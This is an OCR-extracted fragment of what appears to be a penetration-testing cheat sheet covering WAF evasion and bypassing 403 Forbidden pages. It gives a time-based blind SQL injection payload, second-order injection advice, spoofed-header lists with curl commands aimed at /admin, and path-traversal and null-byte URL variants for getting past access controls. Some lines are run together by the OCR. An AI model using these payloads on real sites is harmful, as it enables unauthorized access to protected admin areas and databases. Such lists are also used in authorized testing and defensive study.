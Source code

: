 Technique #9 : Time-Based Triggering
- Use timing payloads (especially for blind SQLi):
```bash
IF(1=1, SLEEP(5), 0)
```

Technique #10 : Second-Order Attacks
- Store payloads in one location that gets executed in another (e.g., admin panel)
- WAFs may miss these since the injection isn’t directly executed



403 forbidden bypass :

Technique #1: Header Manipulation

```bash
Referer: https://target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
X-Forwarded-For: 127.0.0.1
X-Custom-IP-Authorization
X-Rewrite-URL: /admin
X-Original-URL: /admin
X-Forwarded-For
X-Forward-For
X-Remote-IP
X-Originating-IP
X-Remote-Addr
X-Client-IP
X-Real-IP


curl -X GET https://target.com/ -H “X-Original-URL: /admin”
curl -H "Host: alternative.example.com or google.com" http://example.com/secret/



✔️ Modify headers like Referer, X-Original-URL, X-Rewrite-URL.

```

Technique #2: Directory Traversal Tricks
```bash
Adding a slash:
https://target.com/admin/

Appending null byte:
https://target.com/admin%00

URL encoding:
https://target.com/%2e%2e/admin

curl http://example.com/../secret/


/admin/(admin slash), you could try /admin/’,/admin%2e/, or/admin/.htaccess`.
http://example.com/secret/http://example.com/secret..;/http://example.com/secret.


String terminators (%00, 0x00, //, ;, %, !, ?, [] etc.) — adding those to the end of the path and inside the path

/admin
/admin/
/admin/.
/admin/..;/  
/%2e/admin  
/admin%2f  
```